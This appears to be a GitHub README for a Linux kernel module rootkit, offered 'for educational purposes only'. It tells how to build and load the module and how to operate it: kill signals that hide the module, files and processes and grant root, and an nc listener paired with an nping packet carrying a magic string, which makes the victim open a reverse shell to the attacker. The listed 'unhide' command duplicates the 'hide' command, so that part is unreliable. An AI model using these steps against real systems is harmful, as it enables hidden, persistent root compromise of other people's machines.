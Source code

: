 # Linux Kernel Module rootkit

For educational purposes only.

Tested on ubuntu 22.04.1 LTS.

This simple kernel module rootkit overwrites linux system calls to hide itself, hide files and directories and hide multiple processes. Also when loaded it secretly starts an ICMP listener that starts a reverse shell in response to an attackers ping. It can be controlled via `kill` commands: 

## Commands

- Hide/Show rootkit in the list of loaded modules (`$ lsmod`)
  
  ```sh
  $ kill -63 1
  ```
  
  When installed it starts hidden. You can only remove it when it's unhidden.

- Become root
  
  ```sh
  $ kill -64 1
  ```

- Hide process with pid

  ```sh
  $ kill -62 <pid>
  ```

- Unhide process with pid

  ```sh
  $ kill -62 <pid>
  ```

It also hides every file and directory with prefix `rootk_`.

## Backdoor

On attacker machine start netcat listener on some port:

```sh
$ nc -lnvp <port>
```

Send ICMP ping to victim:

```sh
$ nping --icmp -c 1 -dest-ip <victim-ip> --data-string 'xCs!w@ <attacker-ip> <port>'
```

## Install

Compile module and backdoor:

```sh
$ make
$ make install
```

Load module:

```sh
$ sudo insmod build/rootkit.ko
```

### Remove module:

Make sure the module is visible in `lsmod`. To toggle visibility run `kill -63 1`.

Then you can remove it using:

```sh
$ sudo rmmod rootkit.ko
```

